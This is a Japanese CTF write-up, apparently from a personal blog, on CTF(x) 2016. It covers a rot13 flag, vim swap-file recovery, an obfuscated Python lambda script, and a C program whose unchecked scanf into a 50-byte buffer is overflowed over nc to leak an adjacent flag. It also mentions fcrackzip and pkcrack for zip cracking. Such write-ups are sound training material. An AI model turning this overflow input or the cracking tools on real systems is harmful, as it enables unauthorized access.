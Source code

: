 ```yaml
---
layout: post
title: CTF(x) 2016 Write Up
---
```


CTF wo Suruで参加しました. 451ptsで, 52/492 位でした.

あまり解けていないですが, 自分が解いた問題のwrite up.

Crypto * 2, Forensics * 1, Binary * 1 で201pts入れました.

## EBG13 - 1

rot 13

`ctf(rot13issupersecure!)`

## crash - 50
```
total 20
3022646 drwxrwxr-x 2 tsun tsun  4096  8月 24 15:51 .
3022578 drwxrwxr-x 3 tsun tsun  4096  8月 27 10:25 ..
3022648 -rw-rw-r-- 1 tsun tsun     0  8月 24 15:51 flag.txt
3022647 -rw-r--r-- 1 tsun tsun 12288  8月 24 15:51 .flag.txt.swp
```

解凍するとflag.txtと.flag.txt.swpがある.

これはvimで編集すれば良さそう.

```
vim flag.txt
```

すると

```
E325: ATTENTION
Found a swap file by the name ".flag.txt.swp"
          owned by: tsun   dated: Wed Aug 24 15:51:00 2016
         file name: ~defund/Desktop/rip/flag.txt
          modified: no
         user name: defund   host name: defund-VirtualBox
        process ID: 2992
While opening file "flag.txt"
             dated: Wed Aug 24 15:51:12 2016
      NEWER than swap file!

(1) Another program may be editing the same file.  If this is the case,
    be careful not to end up with two different instances of the same
    file when making changes.  Quit, or continue with caution.
(2) An edit session for this file crashed.
    If this is the case, use ":recover" or "vim -r flag.txt"
    to recover the changes (see ":help recovery").
    If you did this already, delete the swap file ".flag.txt.swp"
    to avoid this message.

Swap file ".flag.txt.swp" already exists!
[O]pen Read-Only, (E)dit anyway, (R)ecover, (D)elete it, (Q)uit, (A)bort:
```

と言われるので, Recoverを選択したらflagが出てくる.

`ctf(1@mbd4_1nsAn1ty_pl3asE_h3lp_m3)`

## λ - 100

スクリプトが与えられて, よく分からなかったけど少し書き換えて適当に100回くらい回したらflagが出てきた.

```python

s = 'n1s4_t1An(f1ctdb@mpl_h3)m3lp3y__Eas'
for i in range(100):
    flag = (lambda j,m:(lambda f,t:t if len(t) <= 1 else j([f(f,x)for x in m(j,m(reversed,(lambda s:zip(*[iter(s)]*(len(s)/2)))(t+"\x01"*(len(t)%2))))]))(lambda f,t:t if len(t) <= 1 else j([f(f,x)for x in m(j,m(reversed,(lambda s: zip(*[iter(s)]*(len(s)/2)))(t+"\x01"*(len(t)%2))))]), s))(''.join,map).replace("\x01","")
    print flag
    s = flag
# python cr.py | grep ctf

```

`ctf(1@mbd4_1nsAn1ty_pl3asE_h3lp_m3)`

## guesslength - 100

与えられる

```c
// gcc -o guesslength -m32 guesslength.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

typedef struct {
    char input[50];
    int length;
    char flag[50];
} data;

int main()
{
    setbuf(stdout, NULL);
    data d;

    strncpy(d.flag, "REDACTED", sizeof(d.flag));
    
    printf("Enter your text: ");
    scanf("%s", d.input);
    
    printf("Guess the length of this text: ");
    scanf("%d", &d.length);
    
    if (strlen(d.input) == d.length) {
        printf("You guessed the length correctly. Great job!\n");
    } else {
        printf("The actual length of '%s' is %ld, not %d. Sorry :(\n", d.input, strlen(d.input), d.length);
    }
    
    return 0;
}
```

null文字を潰せば良さそう

適当に"A" * 54 と 4294967295(0xffffffff)を入力した

```bash
$ nc problems.ctfx.io 1338
Enter your text: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Guess the length of this text: 4294967295
The actual length of 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???ctf(hiding_behind_a_null_overwrite)' is 91, not 2147483647. Sorry :(
```

`ctf(hiding_behind_a_null_overwrite)`

----------------

まあお終いなんですけど, passwordというforensics問題,

2つのzipが与えられて片方fcrackzipでパスワード分かって

その中身使ってpkcrackで既知平文攻撃ってのが解法っぽくて それをしていたんですけど上手くいかなかったのでよく分からないです.(未だにpkcrackの使い方がよく分かってないっぽさ)

お疲れ様でした〜ｗ

